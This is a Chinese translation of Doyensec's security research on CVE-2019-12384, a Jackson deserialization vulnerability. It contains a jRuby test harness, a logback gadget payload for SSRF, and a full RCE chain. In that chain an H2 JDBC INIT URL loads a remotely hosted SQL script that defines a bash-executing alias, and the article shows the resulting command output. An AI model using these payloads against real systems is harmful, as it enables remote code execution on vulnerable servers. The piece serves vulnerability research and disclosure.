 > 原文链接: https://www.anquanke.com//post/id/182695 


# CVE-2019-12384：Jackson反序列化漏洞分析


                                阅读量   
                                **428732**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者doyensec，文章来源：blog.doyensec.com
                                <br>原文地址：[https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t015456b65bc5b9a52a.png)](https://p2.ssl.qhimg.com/t015456b65bc5b9a52a.png)



## 0x00 前言

在某次渗透测试过程中，我们分析的某个应用使用[Jackson](https://github.com/FasterXML/jackson)库来反序列化JSON数据。经过分析后，我们找到了一个反序列化漏洞，可以用来控制待反序列化的类。在本文中，我们将分享攻击者如何利用这个反序列化漏洞发起SSRF（服务端请求伪造）以及RCE（远程代码执行）之类的攻击。

漏洞对应的编号为[CVE-2019-12384](https://access.redhat.com/security/cve/cve-2019-12384)，RedHat的多个分支受该漏洞影响，如下所示：

[![](https://p2.ssl.qhimg.com/t017829733e46f4e030.png)](https://p2.ssl.qhimg.com/t017829733e46f4e030.png)



## 0x01 利用条件

根据Jackson开发者在[某篇文章](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)中提到的信息，触发这个Jackson漏洞需要满足如下要求：

1、目标应用接收来不可信客户端发送的JSON数据（可以手动编写代码或者使用不透明或者不可控的代码），这意味着我们无法约束正在发送的JSON数据；

2、目标应用使用多态类型处理方式来处理`java.lang.Object`类型（或者少数几个可使用的接口，如`java.util.Serializable`、`java.util.Comparable`）的属性；

3、目标应用至少包含能够在Java classpath中利用的一个“gadget”类。漏洞利用过程中需要用到能够配合Jackson的一个类。实际上，大多数gadget只能配合特定库使用，比如之前多次讨论过的JDK序列化场景；

4、目标应用使用的Jackson并没有阻止这个特定的“gadget”类。随着时间的推移，已发布的gadget数量越来越多，因此我们需要在gadget发现、报告和修补过程中占得先机。Jackson维护着一个黑名单列表，反序列化是平台的一个“功能”，官方会不断更新已报告的[gadget黑名单](https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java)。

在此次研究过程中，我们假设利用场景已满足条件1及条件2。实际上，我们重点寻找的是能够满足条件3及条件4的gadget。需要注意的是，Jackson是Java应用程序中最常使用的反序列化框架之一，而多态（polymorphism）是其中最重要的一个概念。如果攻击者使用[静态分析工具](https://find-sec-bugs.github.io/bugs.htm#JACKSON_UNSAFE_DESERIALIZATION)或者其他动态分析技术（比如在请求/响应中grep查找`[@class](https://github.com/class)`）来寻找满足这些条件的利用点，那么这些目标定位起来并不是特别难。



## 0x02 环境准备

在研究过程中，我们开发了一款工具来帮助分析这类漏洞。当Jackson反序列化`ch.qos.logback.core.db.DriverManagerConnectionSource`时，我们可以滥用这个类来实例化JDBC链接。JDBC的全称是“(J)ava (D)ata(b)ase (C)onnectivity”，这是一个Java API，用来连接数据库并执行查询语句，也是JavaSE（Java Standard Edition）的一部分。此外，JDBC使用了字符串到类的自动化映射，因此在整条攻击链中，这是用来加载并执行更多“gadget”的绝佳目标。

为了演示攻击过程，我们准备了一个封装器（wrapper），用来加载攻击者指定的各种多态类。在环境方面，我们使用的是基于Java虚拟机（JVM）的[jRuby](https://www.jruby.org/)，用来加载并实例化Java类。

我们使用该环境来加载指定目录中的Java类，准备满足条件1及条件2的Jackson环境。为了完成该任务，我们开发了如下jRuby脚本：

```
require 'java'
Dir["./classpath/*.jar"].each do |f|
    require f
end
java_import 'com.fasterxml.jackson.databind.ObjectMapper'
java_import 'com.fasterxml.jackson.databind.SerializationFeature'

content = ARGV[0]

puts "Mapping"
mapper = ObjectMapper.new
mapper.enableDefaultTyping()
mapper.configure(SerializationFeature::FAIL_ON_EMPTY_BEANS, false);
puts "Serializing"
obj = mapper.readValue(content, java.lang.Object.java_class) # invokes all the setters
puts "objectified"
puts "stringified: " + mapper.writeValueAsString(obj)
```

脚本主要执行如下操作：

1、第2行，加载`classpath`子目录中JAR中包含的所有类；

2、第5-13行，配置Jackson以满足漏洞利用条件；

3、第14-17行，反序列化及序列化以JSON形式传递给jRuby的一个Jackson多态对象。



## 0x03 Gadget

在此次研究中，我们决定使用Java社区中广泛使用的gadget。我们的目标库为[Maven](https://search.maven.org/)中排名前100位的所有库，以便演示攻击影响。

如果大家想复现攻击过程，可以下载如下程序库，将这些库存放在`classpath`目录中：
- [jackson-databind-2.9.8](http://central.maven.org/maven2/com/fasterxml/jackson/core/jackson-databind/2.9.8/jackson-databind-2.9.8.jar)
- [jackson-annotations-2.9.8](http://central.maven.org/maven2/com/fasterxml/jackson/core/jackson-annotations/2.9.8/jackson-annotations-2.9.8.jar)
- [jackson-core-2.9.8](http://central.maven.org/maven2/com/fasterxml/jackson/core/jackson-core/2.9.8/jackson-core-2.9.8.jar)
- [logback-core-1.3.0-alpha4](http://central.maven.org/maven2/ch/qos/logback/logback-core/1.3.0-alpha4/logback-core-1.3.0-alpha4.jar)
- [h2-1.4.199](http://central.maven.org/maven2/com/h2database/h2/1.4.199/h2-1.4.199.jar)
需要注意的是，SSRF攻击中并不需要使用`h2`库，因为根据我们的经验，大多数情况下Java应用至少会加载一个JDBC驱动。JDBC驱动也是一种类，当传入JDBC url时会被自动实例化，完整URL会以参数形式传入处理。

我们可以使用如下命令来调用之前开发好的脚本：

```
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", `{`"url":"jdbc:h2:mem:"`}`]"
```

在脚本第15行，Jackson会使用子对象中的键值递归调用所有set方法。更具体一些，Jackson反射库会调用`setUrl(String url)`，传入所需参数。此后（第17行），整个对象会被再次序列化为一个JSON对象。如果没有定义任何get方法，或者通过显示get方法，此时所有的字段都会被直接序列化。对我们来说比较有趣的是`getConnection()`。作为攻击者，实际上我们感兴趣的是所有的[“non pure”（“非纯”）方法](http://tutorials.jenkov.com/java-functional-programming/index.html#pure-functions)，通过控制参数，这些方法会存在一些有趣的“副作用”。

当调用`getConnection`时，代码会实例化一个内存数据库。由于目标应用生存周期较短，从攻击者视角来看，我们看不到任何影响。为了完成更有意义的任务，我们创建了到远程数据库的一个连接。如果目标应用以远程服务方式进行部署，那么攻击者可以达到SSRF（Server Side Request Forgery）效果，典型攻击场景如下图所示：

[![](https://p4.ssl.qhimg.com/t0111d4d1dec2cc8b06.png)](https://p4.ssl.qhimg.com/t0111d4d1dec2cc8b06.png)



## 0x04 从SSRF到RCE

大家可能已经注意到，这些攻击场景都与DoS以及SSRF有关。在这种情况下，虽然攻击者可能影响应用的安全性，但我们还是想与大家分享如何通过一种简单有效的方法，将SSRF转换成完成的RCE攻击链。

为了在应用上下文中获得完整的代码执行权限，我们在环境中部署了加载H2 JDBC驱动的功能。[H2](http://www.h2database.com/html/features.html)是非常快速的一个内存SQL数据库，通常是作为全功能版SQL数据库管理系统（比如Postgresql、MSSql、MySql或者OracleDB）的替代方案。H2配置起来非常方便，并且也支持许多模型，比如内存部署、文件部署或者远程服务器部署。H2可以通过JDBC URL运行SQL脚本，该功能主要目的是方便内存数据库进行INIT[迁移](https://edgeguides.rubyonrails.org/active_record_migrations.html)。如果单有该功能，攻击者并不能在JVM上下文中执行Java代码。然而，由于H2在JVM框架内实现，因此[支持](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)指定包含java代码的自定义别名。我们可以滥用这一点来执行任意代码。

我们可以通过python构建一个简单的HTTP服务器（比如`python -m SimpleHttpServer`），托管如下`inject.sql` INIT文件：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException `{`
    String[] command = `{`"bash", "-c", cmd`}`;
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\A");
    return s.hasNext() ? s.next() : "";  `}`
$$;
CALL SHELLEXEC('id &gt; exploited.txt')

```

然后通过如下方式运行测试应用：

```
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", `{`"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"`}`]"
...
$ cat exploited.txt
uid=501(...) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),501(access_bpf),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
```

这样就能实现RCE效果。
